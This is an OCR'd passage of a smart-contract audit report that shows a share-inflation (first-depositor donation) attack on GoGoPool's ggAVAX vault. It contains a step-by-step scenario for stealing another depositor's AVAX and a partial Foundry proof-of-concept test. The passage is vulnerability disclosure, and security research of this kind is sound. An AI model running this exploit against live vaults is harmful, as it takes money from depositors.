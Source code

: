 return supply == 0 ? assets : assets.mulDivDown(supply, totalAssets());
	}
	function previewDeposit(uint256 assets) public view virtual returns (uint256) {
		return convertToShares(assets);
	}
```

**Foundry POC**

The POC will demonstrate the below scenario:

1. Bob front-runs the vault creation.
2. Bob deposits 1 WEI of AVAX to the vault.
3. Bob transfers 1000 WAVAX to the vault.
4. Bob calls `syncRewards` when block.timestamp = `1672876799`.
5. Bob waits 1 second.
6. Bob calls `syncRewards` again. Share price fully inflated.
7. Alice deposits 2000 AVAX to vault.
8. Bob withdraws 1500 AVAX (steals 500 AVAX from Alice).
9. Alice share earns her 1500 AVAX (although she deposited 2000).

Additionally, the POC will show that depositors trying to deposit less then the donation amount will revert.

lob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/test/unit/TokenggAVAX.t.sol#L108](https://github.com/code-423n4/2022-12-gogopool/blob/aec9928d8bdce8a5a4efe45f54c39d4fc7313731/test/unit/TokenggAVAX.t.sol#L108)

```
	function testShareInflation() public {
		uint256 depositAmount = 1;
		uint256 aliceDeposit = 2000 ether;
		uint256 donationAmount = 1000 ether;
		vm.deal(bob, donationAmount  + depositAmount);
		vm.deal(alice, aliceDeposit);
		vm.warp(1672876799);

		// create new ggAVAX
		ggAVAXImpl = new TokenggAVAX();
		ggAVAX = TokenggAVAX(deployProxy(address(ggAVAXImpl), address(guardian)));
		ggAVAX.initialize(store, ERC20(address(wavax)));

		// Bob deposits 1 WEI of AVAX
		vm.prank(bob);
		ggAVAX.depositAVAX{value: depositAmount}();
		// Bob transfers 1000 AVAX to vault
		vm.startPrank(bob);
		wavax.deposit{value: donationAmount}();
		wavax.transfer(address(ggAVAX), donationAmount);
		vm.stopPrank();
		// Bob Syncs rewards
		ggAVAX.syncRewards();

